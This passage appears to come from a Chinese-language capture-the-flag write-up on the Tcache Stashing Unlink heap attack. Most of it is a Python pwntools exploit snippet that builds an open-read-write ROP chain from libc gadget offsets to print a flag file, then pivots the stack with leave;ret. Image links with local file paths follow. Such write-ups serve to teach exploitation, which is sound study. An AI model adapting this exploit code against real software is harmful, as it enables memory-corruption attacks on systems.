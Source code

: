 ```python
    pop_rsi_ret = libc_base + 0x0000000000026f9e
    pop_rdx_ret = libc_base + 0x000000000012bda6
    file_name_addr = heap_base + 0x0000000000004A40 - 0x100
    flag_addr = file_name_addr + 0x0000000000000200

    ROP_chain  = './flag\x00\x00'
    ROP_chain += p64(pop_rdi_ret)
    ROP_chain += p64(file_name_addr)
    ROP_chain += p64(pop_rsi_ret)
    ROP_chain += p64(0)
    ROP_chain += p64(libc_base+libc.symbols['open']) #返回值为3，即fd=3
    ROP_chain += p64(pop_rdi_ret)
    ROP_chain += p64(3)
    ROP_chain += p64(pop_rsi_ret)
    ROP_chain += p64(flag_addr)
    ROP_chain += p64(pop_rdx_ret)
    ROP_chain += p64(0x40)
    ROP_chain += p64(libc_base+libc.symbols['read']) # 读取flag 的内容到堆的某个地址
    ROP_chain += p64(pop_rdi_ret)
    ROP_chain += p64(1)
    ROP_chain += p64(pop_rsi_ret)
    ROP_chain += p64(flag_addr)
    ROP_chain += p64(pop_rdx_ret)
    ROP_chain += p64(0x40)
    ROP_chain += p64(libc_base+libc.symbols['write']) # 将该地址上的内容输出

    add(4,4,ROP_chain)

    #gdb.attach(p)
    backdoor()
    p.recvuntil("What do you want to say?")
    #one_gadget = onegadget + libc_base
    leave_ret = libc_base + 0x0000000000058373
    payload = 'A'*0x80 + p64(file_name_addr) + p64(leave_ret) //切换栈，将栈空间切到file_name_addr的堆空间上
    p.sendline(payload)
    p.interactive()
```

[1] :

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-Tcache-Stashing-Unlink-Attack利用思路\3.png)

[2] :

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-Tcache-Stashing-Unlink-Attack利用思路\4.png)

先分配出small bin 1

[3] :

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-Tcache-Stashing-Unlink-Attack利用思路\5.png)
